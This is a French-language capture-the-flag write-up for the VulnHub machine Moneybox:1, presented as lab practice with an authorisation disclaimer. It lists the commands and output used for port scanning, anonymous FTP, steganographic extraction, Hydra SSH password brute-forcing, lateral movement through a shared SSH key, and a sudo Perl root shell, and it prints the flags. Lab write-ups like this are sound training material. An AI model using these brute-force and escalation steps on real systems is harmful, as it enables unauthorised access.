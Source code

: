 ```yaml
---
title: "CTF Moneybox: 1"
date: 2021-05-09
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/moneybox-1,653
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.45`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir moneybox1 && cd moneybox1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0         1093656 Feb 26 09:48 trytofind.jpg
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.38
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1e:30:ce:72:81:e0:a2:3d:5c:28:88:8b:12:ac:fa:ac (RSA)
|   256 01:9d:fa:fb:f2:06:37:c0:12:fc:01:8b:24:8f:53:ae (ECDSA)
|_  256 2f:34:b3:d0:74:b4:7f:8d:17:d2:37:b1:2e:32:f7:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: MoneyBox
```

On a un serveur **FTP** sur le port **21**, un serveur **SSH** sur le port **22** et un serveur **Apache 2** sur le **80**.

Astuce vous pouvez ajouter le domaine _MoneyBox.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.45 MoneyBox.home
```

Commençons par énumérer le serveur **FTP** afin de récupérer le fichier "trytofind.jpg".

```bash
$ ftp
ftp> open $IP
Connected to 192.168.1.45.
220 (vsFTPd 3.0.3)
Name (192.168.1.45:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -a
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Feb 26 09:51 .
drwxr-xr-x    2 0        0            4096 Feb 26 09:51 ..
-rw-r--r--    1 0        0         1093656 Feb 26 09:48 trytofind.jpg
226 Directory send OK.
ftp> get trytofind.jpg
ftp> exit
```

La photo récupérée représente un chat en hoodie tapant sur un clavier d'un pc portable. On check la présence d'informations dans les données **Exif** `exiftool trytofind.jpg pas d'exif` sans succès.  
On poursuit avec **Nikto** pour scanner la sécurité du serveur **Apache**.

```bash
$ nikto -h http://$IP
+ Server: Apache/2.4.38 (Debian)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 26d, size: 5bc3f995481cd, mtime: gzip
+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
+ OSVDB-3233: /icons/README: Apache default file found.
```

Rien de croustillant. Scannons les pages avec **Gobuster**.

```bash
$ gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js
/index.html           (Status: 200) [Size: 621]
/blogs                (Status: 301) [Size: 312] [--> http://192.168.1.45/blogs/]
```

La page [/blogs](http://MoneyBox.home/blogs) retourne un chemin dans le code source (en scrollant) `<!--the hint is the another secret directory is S3cr3t-T3xt-->`. La page [/S3cr3t-T3xt](http://moneybox.home/S3cr3t-T3xt) retourne un code dans le code source (en scrollant) `<!..Secret Key 3xtr4ctd4t4 >`.

Testons la présence d'un fichier dans l'image récupérée du serveur **FTP** avec l'outil **Steghide**.

```bash
$ steghide --extract -sf trytofind.jpg
Entrez la passphrase: 3xtr4ctd4t4
�criture des donn�es extraites dans "data.txt".
```

Dans le fichier "data.txt", on apprend la présence d'un éventuel utilisateur "renu".

```bash
$ cat data.txt              
Hello.....  renu

      I tell you something Important.Your Password is too Week So Change Your Password
Don't Underestimate it.......
```

Avec cette information, tentons un brute force sur le serveur **SSH** avec **Hydra**.

```bash
$ hydra -l renu -P /usr/share/wordlists/rockyou.txt $IP -t 4 -V ssh
[22][ssh] host: 192.168.1.45   login: renu   password: 987654321
```

Après quelques minutes, **Hydra** trouve le mot de passe de cet utilisateur : "987654321".

## Pénétration

On se connecte en **SSH** avec l'utilisateur "renu".

```bash
$ ssh renu@$IP
[STATUS] 4781466.33 tries/min, 14344399 tries in 00:03h, 1 to do in 00:01h, 1 active
renu@192.168.1.45's password: 987654321
```

On trouve facilement le flag user présent dans le fichier "user1.txt".

```bash
$ cat user1.txt
Yes...!
You Got it User1 Flag

 ==> us3r1{F14g:0ku74tbd3777y4}
```

## Escalation

L'utilisateur "renu" n'a pas accès à **sudo** mais il y a une autre utilisatrice... "lily".

```bash
$ ls -la /home
drwxr-xr-x  4 lily lily 4096 Feb 26 09:06 lily
```

Dans son dossier on trouve un second flag dans le fichier "user2.txt".

```bash
$ cat /home/lily/user2.txt
Yeah.....
You Got a User2 Flag

==> us3r{F14g:tr5827r5wu6nklao}
```

La clef de l'utilisateur "renu" apparait dans le fichier "authorized_keys" de "lily".

```bash
$ cat /home/lily/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian
```

Donc on peut se connecter en **SSH** sur le compte de l'utilisatrice "lily" `ssh lily@localhost`.  
Utilisatrice qui a le droit d'exécuter **sudo**.

```bash
$ sudo -l
User lily may run the following commands on MoneyBox:
    (ALL : ALL) NOPASSWD: /usr/bin/perl
```

On peut exécuter du **Perl** en tant que **sudo** avec ce compte. Commande ci-dessous que l'on récupère sur [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#sudo).

```bash
$ sudo perl -e 'exec "/bin/sh";'
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ id
uid=0(root) gid=0(root) groups=0(root)
```

Désormais root, on peut accèder au contenu du dernier flag.

```bash
$ cat /root/.root.txt
H4ckth3p14n3t
```
